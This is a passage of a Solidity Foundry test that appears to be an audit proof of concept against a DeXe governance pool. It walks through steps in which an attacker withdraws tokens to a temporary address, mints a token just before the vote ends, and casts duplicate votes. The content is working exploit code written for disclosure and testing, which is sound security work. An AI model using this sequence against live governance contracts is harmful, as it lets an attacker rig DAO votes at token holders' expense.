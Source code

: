 ```solidity

        vm.warp(block.timestamp + 3);
        vm.roll(block.number + 1);

        console.log("");
        console.log("------------ 5. The attacker withdraws his tokens ------------");
        // 5. The attacker withdraws his tokens and send the tokens to tmp address in the next block.
        {
            vm.startPrank(attacker);

            console.log(">>> The attacker withdraw his token and send the token to tmp address");
            console.log("beforeTmpBalance              : ", dexeToken.balanceOf(attackerTmp));
            govPool.withdraw(attackerTmp, depositAmount, nftIds);
            console.log("afterTmpBalance               : ", dexeToken.balanceOf(attackerTmp));

            vm.stopPrank();
        }

        console.log("");
        console.log("------------ 6. Mint 1 DeXe token ----------------------------");
        // 6. The attacker transfers 1 DeXe token (or more) from Ethereum network to BSC at the end time or just before the end time of the proposal

        {
            // In this case, 1 DeXe token is minted on BSC.
            // So the totalSupply of DeXe token is increased on BSC.
            // Setting the time close to the end time makes it difficult for the team to recognize and respond to the problem
            vm.warp(proposal.core.voteEnd);
            vm.roll(block.number + 86400 / 3); // 3 seconds per block on BSC.

            // In this test, it is not possible to implement token transfers using a bridge.
            address owner = 0xB6F6D86a8f9879A9c87f643768d9efc38c1Da6E7;
            console.log(">>> Mint 1 DeXe token and and it to attacker address");
            console.log(">>> * In reality, mint can be done by general users. (bridge)");
            vm.prank(owner);
            dexeToken.mint(attacker, ONE_TOKEN);

            // now the state is voting
            proposalState = govPool.getProposalState(proposalId);
            console.log("- State is Voting ? ", IGovPool.ProposalState.Voting == proposalState);
        }

        console.log("");
        console.log("------------ 7. The attacker duplicates the votes ------------");
        // 7. The attacker duplicates the votes for the proposal using the tmp address.
        {
            vm.startPrank(attackerTmp);
            console.log(">>> The attacker deposits and votes using tmp wallet");
            dexeToken.approve(address(userKeeper), depositAmount);
            govPool.deposit(depositAmount, nftIds);

            _data[0] = abi.encodeWithSelector(IGovPool.vote.selector, proposalId, true, depositAmount, nftIds);
            govPool.multicall(_data);

            proposalState = govPool.getProposalState(proposalId);
            console.log("- State is Locked ? ", IGovPool.ProposalState.Locked == proposalState);

            vm.stopPrank();
        }

```